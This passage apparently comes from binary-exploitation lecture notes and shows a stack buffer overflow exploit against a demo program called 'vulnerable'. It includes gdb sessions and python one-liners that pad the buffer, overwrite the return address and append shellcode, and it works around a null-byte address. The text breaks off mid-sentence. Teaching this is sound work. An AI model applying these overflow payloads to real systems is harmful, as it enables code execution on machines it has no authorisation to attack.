 Failed Attempt 2
----------------

This time, we'll change strategies a bit. Instead of jumping backwards,
let's jump forward. Here's what I propose:

``` {.example}
                                             .-----------.
                                             |           |
                                             |           v
   ./vulnerable 5 <--------padding-----><address-of-buf><shell code>
```

Again, we need to use gdb to do some address calculations to find out
where the start of our shell code is. I'll format the exploit of the
right length and use 0xdeadbeef as the return address filler to
calculate the start of the shell code which should be at `ebp+0x8`, four
bytes further than the return address.

``` {.example}
(gdb) p $ebp-0x2cQuit
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xfc\xf5\xff\xbf'+sh"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xfc\xf5\xff\xbf'+sh"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) x/x $ebp+8
0xbffff600: 0x05
```

Again, so the next address following the return address is 0xbfffff600.
Um ... that is not going to work because that address has a NULL byte in
it!

SUCCESS!
--------

Ok, so we need to jump 8 bytes further from the return address to skip
of that null byte address. This time our shell code exploit looks like
this:

``` {.example}
                                             .------------------------.
                                             |                        |
                                             |                        v
   ./vulnerable 5 <--------padding-----><address-of-shelcode><padding><shell code>
```

Again, I'll do an address calculation to see where we are. We know what
that addres

``` {.example}
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xef\xbe\xad\xde'+'A'*4+sh+'\x00'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\xef\xbe\xad\xde'+'A'*4+sh+'\x00'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ni 6
0x080484f4 in vuln ()
(gdb) x/x $ebp+0xc
0xbffff604: 0x315e17eb
(gdb) x/3wx $ebp
```